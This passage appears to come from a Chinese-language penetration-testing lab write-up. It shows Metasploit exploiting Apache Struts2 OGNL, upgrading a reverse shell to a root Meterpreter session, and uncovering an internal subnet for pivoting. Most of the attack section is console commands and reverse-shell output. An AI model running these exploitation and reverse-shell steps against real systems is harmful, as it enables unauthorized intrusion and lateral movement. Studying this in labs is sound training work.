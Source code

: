 3. 对已开放端口号进行信息收集，得到开放的服务的信息

4. 从开放的服务入手获取版本寻找可用的漏洞

5. 确定漏洞，装载payload，exploit

很显然上面的5个步骤中这边能够走过的是1，2和5，类似于已知了漏洞的前提下进行操作

首先是将已经获得的1号会话即外层主机shell升级为meterpreter，说是升级并且执行的命令也是`sessions -u 1`，其实是通过上传名为`post/multi/manage/shell_to_meterpreter`的payload的方式开启更多功能的会话：

```metasploit
msf6 exploit(multi/http/struts2_multi_eval_ognl) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.168.56.107:4444 -> 192.168.56.1:60604 (172.29.108.146)

msf6 exploit(multi/http/struts2_multi_eval_ognl) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.56.107:4433
[*] Sending stage (1017704 bytes) to 192.168.56.1
[*] Meterpreter session 2 opened (192.168.56.107:4433 -> 192.168.56.1:60598) at 2023-07-26 05:44:37 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(multi/http/struts2_multi_eval_ognl) > sessions

Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60604 (172.29.108.146)
  2         meterpreter x86/linux  root @ 192.171.84.4  192.168.56.107:4433 -> 192.168.56.1:60598 (172.29.108.146)

msf6 exploit(multi/http/struts2_multi_eval_ognl) >
```

此时使用2号会话的meterperter就可以直接查看外层主机的网卡信息了，于是便获得了一个新的内网网段`192.171.84.0/24`：
